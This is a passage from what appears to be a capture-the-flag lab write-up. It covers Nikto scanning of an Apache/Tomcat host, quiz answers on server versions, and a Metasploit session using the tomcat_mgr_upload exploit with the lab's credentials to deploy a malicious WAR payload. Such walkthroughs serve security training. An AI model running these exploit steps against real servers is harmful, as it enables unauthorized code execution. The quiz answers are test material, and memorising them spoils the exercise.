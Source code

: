 ### Apache Server Version

```bash
nikto -h http://$IP-ADDRESS -p 80
```

8. **What is the server version (run the scan against port 80)?** → `Apache/2.4.18`
9. **What version of Apache-Coyote is this service using?** → `1.1`

---

## Exploitation Phase

### Identifying the Attack Vector

Based on our reconnaissance:
- ✅ Valid Tomcat Manager credentials (`bob:bubbles`)
- ✅ Manager interface accessible
- ✅ PUT method enabled (file upload capability)
- ✅ Default Tomcat installation

This is a perfect scenario for the **Tomcat Manager Upload** exploit.

### Metasploit Exploitation

```bash
msfconsole

# Search for relevant exploits
search tomcat

# Select the manager upload exploit
use exploit/multi/http/tomcat_mgr_upload

# Configure the exploit
set USERNAME bob
set PASSWORD bubbles
set RHOST $IP-ADDRESS
set RPORT 1234
set TARGETURI /manager

# Launch the exploit
exploit
```

**Why This Exploit Works:**
1. **Authentication**: Uses our valid credentials
2. **Manager Access**: Leverages Tomcat Manager functionality
3. **WAR Upload**: Creates and uploads malicious WAR file
4. **Code Execution**: Deploys and executes payload automatically

### Success!
